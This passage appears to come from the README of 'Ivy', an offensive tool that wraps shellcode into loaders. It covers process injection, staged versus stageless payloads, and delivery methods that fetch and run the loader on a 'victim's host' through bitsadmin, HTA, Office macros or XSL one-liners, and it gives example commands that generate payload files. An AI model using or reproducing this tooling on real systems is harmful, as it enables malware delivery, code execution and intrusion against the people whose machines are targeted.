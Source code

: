 ### Injection Process

With `Inject` mode Ivy will create a process in a suspended state to injection shellcode into. Depending on the on whether its a 32-bit or 64-bit system it will spawn a different process. Ivy comes with some default process names to spawn, however these can be changed by using the `process32` or `process64` flags. When specifying the path ensure you use `\\` for the path.

# Staged vs Stageless Shellcode

First of all, YOU SHOULD ALWAYS USE the ```-stageless``` argument. However, if you ever need to run a staged payload you can do so by not using the `-stageless` argument. When using the `-stageless` you can use raw shellcode, however, when you choose to run a staged payload it is important that for `Inject` payload types the shellcode must be VBA formatted and for `Local` types the shellcode be C formatted.


# Delivery 
The delivery command line argument allows you to generate a command or string of code (in the macro case) to remotely pull the file from a remote source to the victim’s host. These delivery methods include:
* Bits – This will generate a bitsadmin command that will download the loader remotely, execute and remove it.
* HTA – This will generate a blank HTA file containing the loader. This option will also provide a command line that will execute the HTA remotely in the background.
* Macro – This will generate an Office macro that can be put into an Excel or Word macro document. When this macro is executed, the loader will be downloaded from a remote source and executed, then removed. 
* XSL - Generates a xsl stylesheet file containing the loader along with a one liner command execute the loader remotely.

# Examples 

### Staged Inject payload


```
./Ivy -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
```

### Staged Local payload
```
./Ivy -Ix64 test64.c -Ix86 test32.c -P Local -O SampleLocal.js
```

### Stagless Local payload
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O stageless.js
```

### Stagless Injected payload
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O stageless.js
```
